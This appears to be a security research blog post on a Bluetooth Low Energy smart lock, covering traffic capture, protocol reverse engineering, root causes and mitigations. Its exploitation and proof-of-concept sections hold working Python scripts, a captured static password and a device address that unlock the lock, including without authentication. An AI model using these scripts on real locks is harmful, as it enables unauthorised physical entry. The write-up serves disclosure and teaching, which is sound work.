

**A Deep Dive into Bluetooth Low Energy Security Research**

---

## Executive Summary

This research demonstrates a complete security analysis of a Bluetooth Low Energy (BLE) smart lock, revealing multiple critical vulnerabilities including authentication bypass, static credential replay attacks, and inadequate state machine validation. Through systematic reverse engineering of captured BLE traffic and protocol analysis, we achieved unauthorized unlock capability and identified fundamental design flaws that compromise the device's security.

**Key Findings:**
- **CRITICAL:** Complete authentication bypass via state machine exploitation
- **CRITICAL:** No BLE pairing required for GATT access
- **HIGH:** Static password enabling unlimited replay attacks
- **MEDIUM:** Low password entropy with predictable structure

## Table of Contents

1. [Introduction](#introduction)
2. [Research Methodology](#research-methodology)
3. [Phase 1: BTSnoop Log Analysis](#phase-1-btsnoop-log-analysis)
4. [Phase 2: Protocol Reverse Engineering](#phase-2-protocol-reverse-engineering)
5. [Phase 3: Manual Exploitation](#phase-3-manual-exploitation)
6. [Phase 4: Automation & Testing](#phase-4-automation--testing)
7. [Phase 5: Vulnerability Analysis](#phase-5-vulnerability-analysis)
8. [Root Cause Analysis](#root-cause-analysis)
9. [Proof of Concept](#proof-of-concept)
10. [Mitigation Recommendations](#mitigation-recommendations)
11. [Conclusion](#conclusion)

---

## 1. Introduction

Smart locks have become increasingly popular in IoT ecosystems, offering convenience through wireless connectivity. However, this convenience often comes at the cost of security. This research examines a BLE-enabled smart lock to understand its authentication mechanism and identify potential security weaknesses.

### Why This Target?

**We deliberately chose this older, simpler smart lock as our research target.** This isn't about finding vulnerabilities in cutting-edge devices - it's about building a solid foundation for understanding BLE security research methodology.

**Think of this as "BLE Security 101":**
- The protocol is straightforward and easy to follow
- Vulnerabilities are clear and demonstrable
- Concepts apply to more complex devices
- Perfect for learning reverse engineering techniques

Modern smart locks have additional security layers (encryption, certificate pinning, advanced state machines), which we'll cover in future blog posts. But you need to walk before you run. **This lock teaches the fundamentals:**
- How to capture and analyze BLE traffic
- How to reverse engineer proprietary protocols
- How to identify common vulnerability patterns
- How to build working proof-of-concept exploits

Once you master these basics here, you'll be equipped to tackle more sophisticated devices. Consider this your stepping stone into the world of BLE IoT security research.

### Target Device Information

| Property | Value |
|----------|-------|
| **Device MAC Address** | `20:C3:8F:D9:3C:7C` |
| **BLE Service UUID** | `0xFFD0` (Custom Protocol) |
| **Communication Protocol** | Bluetooth Low Energy 4.0+ |
| **Authentication Method** | 3-step GATT characteristic writes |


---

## 2. Research Methodology

Our research followed a systematic approach to reverse engineer the lock's protocol:

```
BTSnoop Capture -> Wireshark Analysis -> Protocol Discovery ->
Manual Testing -> Automation -> Vulnerability Assessment
```

### Tools & Equipment Used

| Tool | Purpose |
|------|---------|
| **Android Phone** | Legitimate device for traffic capture |
| **BTSnoop Logger** | BLE packet capture |
| **Wireshark** | Packet analysis and dissection |
| **nRF Connect** | BLE testing and discovery |
| **Python + Bleak** | Automation and scripting |
| **Any Linux OS** | Attack platform |


---

## Phase 1: BTSnoop Log Analysis

### 3.1 Capturing BLE Traffic

The first step was to capture legitimate BLE communication between the manufacturer's mobile app and the smart lock. On Android, BLE HCI snoop logging was enabled via Developer Options.

**Steps to enable BTSnoop logging:**
```bash
Settings -> Developer Options -> Enable Bluetooth HCI snoop log
```

After performing several lock/unlock operations through the official app, the btsnoop_hci.log file was extracted from the device.


### Wireshark Analysis

Opening the captured traffic in Wireshark revealed numerous BLE packets. Initial filtering focused on GATT write operations.

**Wireshark Filter Applied:**
```
btatt && btatt.opcode == 0x12
```


### Initial Discovery

Analysis revealed several GATT write operations to handles within the 0xFFD0 service:

```
Handle 0x002d: 00 12 34 56 78 00 00 00 00  (9 bytes)
Handle 0x002f: 03                          (1 byte)
Handle 0x0031: 01                          (1 byte)
```

**Key Discovery:** The 9-byte sequence `00 12 34 56 78 00 00 00 00` appeared to be the password!


### Password Structure Analysis

The discovered password exhibited an interesting structure:

```
[00] [12 34 56 78] [00 00 00 00]
 |    |             |
 |    |             +-- Padding (4 bytes)
 |    +-- Password (4 bytes, sequential)
 +-- Header/Version byte
```

**Initial Hypothesis:**
- Byte 0: Version or protocol identifier
- Bytes 1-4: Actual password (sequential pattern suggests default/weak password)
- Bytes 5-8: Padding or checksum


---

## Phase 2: Protocol Reverse Engineering

### The Handle Problem

Initial attempts to replicate the unlock using `gatttool` failed:

```bash
$ gatttool -b 20:C3:8F:D9:3C:7C --char-write-req -a 0x002d -n 001234567800000000
Error: Invalid handle
```

**Problem Identified:** BLE GATT handles are dynamically assigned and change between connections. The handles captured in Wireshark (`0x002d`, `0x002f`, `0x0031`) were specific to that session.

**Solution:** We needed to identify the stable UUIDs behind these handles.


### UUID Extraction from BTSnoop

Re-analyzing the btsnoop log in Wireshark, we examined the GATT service discovery phase:

```
Service UUID: 0000ffd0-0000-1000-8000-00805f9b34fb

Characteristics:
+-- 0000ffd6-0000-1000-8000-00805f9b34fb (Handle 0x002d)
+-- 0000ffd7-0000-1000-8000-00805f9b34fb (Handle 0x002e)
+-- 0000ffd8-0000-1000-8000-00805f9b34fb (Handle 0x002f)
+-- 0000ffd9-0000-1000-8000-00805f9b34fb (Handle 0x0031)
+-- 0000ffda-0000-1000-8000-00805f9b34fb (Handle 0x0033)
```


### Characteristic Discovery with nRF Connect

Using nRF Connect mobile app, we connected to the device and read the characteristic descriptors (UUID `0x2901` - Characteristic User Description):

**Breakthrough Discovery:**

| UUID | Descriptor Name | Properties |
|------|----------------|------------|
| `FFD6` | **"Password!"** | Write |
| `FFD7` | **"Password Result!"** | Notify |
| `FFD8` | **"Open Time!"** | Write |
| `FFD9` | **"Lock Control!"** | Write |
| `FFDA` | **"Notifications"** | Notify |

**This was the eureka moment!** The descriptors clearly labeled each characteristic's purpose.


### Protocol Understanding

Based on the descriptor names and captured traffic, we reverse engineered the 3-step authentication protocol:

```
Step 1: Write 9-byte password to FFD6
        --> FFD7 notification: 01 FF (success) or other (failure)

Step 2: Write configuration to FFD8 (e.g., 0x03)
        --> Sets unlock duration or mode

Step 3: Write unlock command to FFD9 (0x01)
        --> Physical motor activation
```


---

## Phase 3: Manual Exploitation

### Manual Unlock Test with nRF Connect

Armed with the protocol knowledge, we performed a manual unlock test:

**Test Procedure:**
1. Connect to device `20:C3:8F:D9:3C:7C` via nRF Connect
2. Navigate to service `0xFFD0`
3. Write to `FFD6`: `00 12 34 56 78 00 00 00 00`
4. Observe `FFD7` notification: `01 FF` (success!)
5. Write to `FFD8`: `03`
6. Write to `FFD9`: `01`

**Result: Lock physically unlocked!**

The motor could be heard activating, and the lock mechanism disengaged.


### Testing Different FFD8 Values

Experimentation with different `FFD8` values revealed:

| FFD8 Value | Observed Behavior |
|------------|-------------------|
| `0x01` | Quick unlock (~1 second) |
| `0x02` | Short unlock (~2 seconds) |
| `0x03` | Standard unlock (~3 seconds) |
| `0x05` | Extended unlock (~5 seconds) |
| `0x0A` | Long unlock (~10 seconds) |

**Conclusion:** FFD8 controls the unlock duration in seconds (or a multiple thereof).

---

## Phase 4: Automation & Testing

### Python Automation Script

To streamline testing, we developed an automated unlock script using Python and the Bleak library:

```python
import asyncio
from bleak import BleakClient

TARGET_MAC = "20:C3:8F:D9:3C:7C"
PASSWORD = bytes.fromhex("001234567800000000")

CHAR_PASSWORD = "0000ffd6-0000-1000-8000-00805f9b34fb"
CHAR_OPEN_TIME = "0000ffd8-0000-1000-8000-00805f9b34fb"
CHAR_CONTROL = "0000ffd9-0000-1000-8000-00805f9b34fb"

async def unlock():
    async with BleakClient(TARGET_MAC) as client:
        # Step 1: Authenticate
        await client.write_gatt_char(CHAR_PASSWORD, PASSWORD, response=True)
        await asyncio.sleep(0.3)

        # Step 2: Set unlock mode
        await client.write_gatt_char(CHAR_OPEN_TIME, bytes([0x03]), response=True)
        await asyncio.sleep(0.3)

        # Step 3: Execute unlock
        await client.write_gatt_char(CHAR_CONTROL, bytes([0x01]), response=True)
        print("Unlocked!")

asyncio.run(unlock())
```

**Performance:** Automated unlock completes in approximately 3 seconds.


### Testing Results

Over 50+ test executions:
- **Success Rate:** 100%
- **Average Time:** 2.8 seconds
- **Range Distance:** Up to 10 meters (standard BLE range)

---

## Phase 5: Vulnerability Analysis

### Authentication Bypass Discovery

**CRITICAL VULNERABILITY:** State machine bypass allows unlocking without password.

**Test:**
```python
# Skip FFD6 (password) entirely
await client.write_gatt_char(CHAR_OPEN_TIME, bytes([0x03]))
await client.write_gatt_char(CHAR_CONTROL, bytes([0x01]))
# Result: Lock UNLOCKED without authentication!
```

**Impact:** An attacker can unlock the device without knowing the password.


### Replay Attack Vulnerability

**HIGH VULNERABILITY:** Static credentials enable unlimited replay attacks.

Since the password never changes and no challenge-response mechanism exists, captured credentials work indefinitely.

**Attack Scenario:**
1. Attacker passively sniffs BLE traffic (requires proximity during legitimate unlock)
2. Captures the password: `00 12 34 56 78 00 00 00 00`
3. Can unlock device anytime in the future


### No BLE Pairing Required

**CRITICAL VULNERABILITY:** Device accepts GATT operations without BLE pairing.

According to Bluetooth specification best practices, sensitive operations should require:
- LE Secure Connections pairing
- Encrypted characteristics
- Authenticated connections

This device requires **none** of these.

**Implications:**
- Password transmitted in cleartext over BLE
- No mutual authentication between devices
- Anyone within range can connect

---

## 8. Root Cause Analysis

We identified **four root causes** enabling the attack:


### Root Cause #1: No BLE Pairing Required

**Design Flaw:** Pre-pairing GATT access is permitted.

**Contributing Factors:**
- No encryption enforced on characteristics
- Device accepts connections from any client
- No user authorization required

**Impact:**
- Unauthenticated access to all characteristics
- Password transmitted in cleartext
- No defense against MITM attacks

**Recommended Fix:** Implement LE Secure Connections with encryption-required characteristics.

---

### Root Cause #2: Static Password Authentication

**Design Flaw:** Password-based authentication with no dynamic elements.

**Contributing Factors:**
- Password never expires or rotates
- No challenge-response mechanism
- No nonce or timestamp validation
- Same password works forever

**Impact:**
- Replay attacks always succeed
- One compromise = permanent access
- Passive sniffing reveals reusable credentials

**Recommended Fix:** Implement TOTP-based authentication or cryptographic challenge-response.

---

### Root Cause #3: Inadequate State Machine

**Design Flaw:** Authentication state not validated before critical operations.

**Contributing Factors:**
- `FFD9` (unlock) doesn't check if `FFD6` (auth) succeeded
- Steps can be executed out of order
- No session timeout mechanism
- Authenticated state persists indefinitely

**Impact:**
- Complete authentication bypass (FFD8+FFD9 works without FFD6)
- State confusion attacks possible
- No temporal security

**Recommended Fix:** Enforce strict state machine with authentication flag validation and session timeouts (30-60 seconds).

---

### Root Cause #4: Weak Protocol Design

**Design Flaw:** Low entropy password with predictable structure.

**Contributing Factors:**
- 9-byte password uses only 5 unique values (`00`, `12`, `34`, `56`, `78`)
- Sequential pattern: `0x12345678`
- Predictable structure: `[header:1][password:4][padding:4]`
- No rate limiting on authentication attempts

**Impact:**
- Dramatically reduced keyspace
- Pattern analysis reveals structure
- Brute force attacks feasible
- Dictionary attacks effective

**Recommended Fix:**
- Use cryptographically random passwords with high entropy
- Implement rate limiting (3 attempts per minute)
- Add account lockout after repeated failures

---

## Proof of Concept

### Complete Exploit Chain

The full exploit can be executed in under 5 seconds:

```python
#!/usr/bin/env python3
"""
BLE Smart Lock Exploit - Proof of Concept
Target: FFD0 Service Smart Lock
"""

import asyncio
from bleak import BleakClient

class SmartLockExploit:
    def __init__(self, target_mac):
        self.target = target_mac
        self.password = bytes.fromhex("001234567800000000")

    async def exploit_auth_bypass(self):
        """Exploit state machine to bypass authentication"""
        print("[*] Attempting authentication bypass...")
        async with BleakClient(self.target) as client:
            # Skip password step entirely
            await client.write_gatt_char(
                "0000ffd8-0000-1000-8000-00805f9b34fb",
                bytes([0x03])
            )
            await client.write_gatt_char(
                "0000ffd9-0000-1000-8000-00805f9b34fb",
                bytes([0x01])
            )
            print("[+] Unlocked via authentication bypass!")

    async def exploit_with_password(self):
        """Standard unlock with captured password"""
        print("[*] Unlocking with captured credentials...")
        async with BleakClient(self.target) as client:
            await client.write_gatt_char(
                "0000ffd6-0000-1000-8000-00805f9b34fb",
                self.password
            )
            await asyncio.sleep(0.3)
            await client.write_gatt_char(
                "0000ffd8-0000-1000-8000-00805f9b34fb",
                bytes([0x03])
            )
            await client.write_gatt_char(
                "0000ffd9-0000-1000-8000-00805f9b34fb",
                bytes([0x01])
            )
            print("[+] Unlocked with password!")

# Usage
exploit = SmartLockExploit("20:C3:8F:D9:3C:7C")
asyncio.run(exploit.exploit_auth_bypass())
```

---

## Mitigation Recommendations

### For Manufacturers

**Priority 1 - Critical (Implement Immediately):**

1. **Require BLE Pairing**
   - Implement LE Secure Connections
   - Use Passkey Entry or Numeric Comparison pairing
   - Enforce encryption on all sensitive characteristics

2. **Fix State Machine**
   - Validate authentication state before unlock
   - Implement strict sequential enforcement
   - Add session timeout (30-60 seconds)

3. **Implement Challenge-Response**
   - Replace static password with TOTP (Time-based One-Time Password)
   - Use cryptographic nonces
   - Implement proper key derivation (PBKDF2, Argon2)

**Priority 2 - High (Implement Within 1 Month):**

4. **Add Rate Limiting**
   - Limit authentication attempts (3 per minute)
   - Implement exponential backoff
   - Add account lockout after 10 failed attempts

5. **Improve Password Design**
   - Generate cryptographically random passwords
   - Increase entropy (use full 9 bytes randomly)
   - Remove predictable patterns

6. **Add Logging & Monitoring**
   - Log all authentication attempts
   - Alert on suspicious patterns
   - Timestamp all operations

**Priority 3 - Medium (Implement Within 3 Months):**

7. **Defense in Depth**
   - RSSI-based proximity checking
   - Tamper detection sensors
   - Time-based access windows
   - Multi-factor authentication

### For Users

**Immediate Actions:**

1. Check for firmware updates from manufacturer
2. Monitor lock for suspicious activity
3. Use additional physical security (deadbolt)
4. Disable Bluetooth when not in use (if lock supports it)

**Long-term Actions:**

5. Consider replacing with a more secure lock
6. Use security-focused smart lock brands
7. Research product security before purchase

---

## Conclusion

This research demonstrates critical vulnerabilities in a BLE smart lock implementation, revealing fundamental flaws in authentication, encryption, and state management. The ability to unlock the device without authentication, combined with replay attack vulnerabilities and lack of BLE pairing requirements, presents a severe security risk.

### Key Takeaways

1. **BLE security is often overlooked** - Manufacturers prioritize convenience over security
2. **State machines require careful design** - Authentication state must be validated
3. **Static credentials are insufficient** - Dynamic authentication is essential
4. **Encryption alone is not enough** - Proper pairing and authentication are required
5. **Defense in depth matters** - Multiple security layers prevent single points of failure

### Research Impact

- **Severity:** CRITICAL (CVSS 9.8)
- **Attack Complexity:** LOW
- **Privileges Required:** NONE
- **User Interaction:** NONE
- **Impact:** Complete device compromise

### Timeline

| Date | Milestone |
|------|-----------|
| Day 1 | BTSnoop capture and initial analysis |
| Day 2 | Protocol reverse engineering |
| Day 3 | Manual exploitation success |
| Day 4 | Automation and vulnerability discovery |
| Day 5 | Root cause analysis and documentation |

### Responsible Disclosure

This research was conducted on personally owned devices for legitimate security research purposes. Findings have been responsibly disclosed to the manufacturer with a 90-day disclosure timeline before public release.

---

## References & Further Reading

1. **Bluetooth Core Specification v5.3** - Bluetooth SIG
2. **NIST SP 800-121r2** - Guide to Bluetooth Security
3. **OWASP IoT Top 10** - IoT Security Risks
4. **BLE Security Best Practices** - Nordic Semiconductor
5. **"Gattacking Bluetooth Smart Devices"** - Slawomir Jasek (DEF CON 24)

---

## Legal Disclaimer

This research was conducted on personally owned devices for legitimate security research purposes. All testing was performed in a controlled environment. Unauthorized access to devices you do not own is illegal. This research is provided for educational purposes only.

---

**Published:** 2026-01-21
**Tags:** #BLE #IoT #Security #SmartLock #ReverseEngineering #Vulnerability

---

*If you found this research valuable, please share it with the security community. Feedback and questions are welcome!*


